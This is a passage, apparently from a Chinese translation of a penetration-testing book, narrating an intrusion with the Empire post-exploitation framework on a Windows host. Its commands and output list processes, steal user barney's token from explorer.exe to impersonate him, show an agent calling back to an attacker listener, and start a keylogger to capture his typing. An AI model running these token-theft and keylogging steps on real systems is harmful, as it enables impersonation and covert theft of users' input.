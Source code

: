 为了模拟巴尼(barney)的身份，我们将在包含他的令牌的机器上生成一个新进程。令牌相当于Windows上的web会话cookie。它是内存中的一个结构，引用每个进程背后用户的特权和身份。

为了获取Barney的安全令牌，我们只需从他当前运行的现有程序中窃取它：Internet Explorer、Firefox等。
```
(Empire: 4DMWAKBDMXMBLHL1) > ps
(Empire: 4DMWAKBDMXMBLHL1) >
ProcessName	PID	Arch	UserName	
-----------	---	----	--------	
Idle	0	x64	N/A	
System	4	x64	N/A	
svchost		60	x64	NT
AUTHORITY\LOCAL SERVICE
smss	232	x64	NT AUTHORITY\SYSTEM
csrss	308	x64	NT AUTHORITY\SYSTEM
sqlservr	376	x64	NT AUTHORITY\SYSTEM
wininit	380	x64	NT AUTHORITY\SYSTEM
[...]
explorer	1188	x64	SPH\barney
70.32 MB
enstart64	1196	x64	NT AUTHORITY\SYSTEM
plugin-container	1344	x64	SPH\barney 58.86 MB
vmms	1348	x64	NT AUTHORITY\SYSTEM
taskhostex	1408	x64	SPH\barney 6.36 MB
sppsvc	1732	x64	NT AUTHORITY\NETWORK
```

1188号进程可能是个不错的目标。“steal_token”命令将在后台启动带有Barney身份的PowerShell进程。
```
Empire: 4DMWAKBDMXMBLHL1) >
Running As: SPH\barney


Use credentials/tokens with RevToSelf option to revert token privileges
Listener:	http://<FrontGun_IP>:8080 Internal IP:		10.10.20.21
Username:	SPH\barney
Hostname:	FRPC021
OS:	Microsoft Windows 10 Pro High Integrity:	1
Process Name:		powershell Process ID:	6012
PSVersion:	5
```


太棒了！现在Empire Agent可以冒充巴尼的身份了，我们启动键盘记录器:
```
(Empire: 4DMWAKBDMXMBLHL1) > usemodule
collection/keylogger
(Empire: 4DMWAKBDMXMBLHL1) > run
```

果然，当巴尼(barney)在记事本中疯狂地输入一个看起来像JCL脚本的内容时，大量的按键记录开始涌入。
![](./Chap6/3.keystrike.jpg)
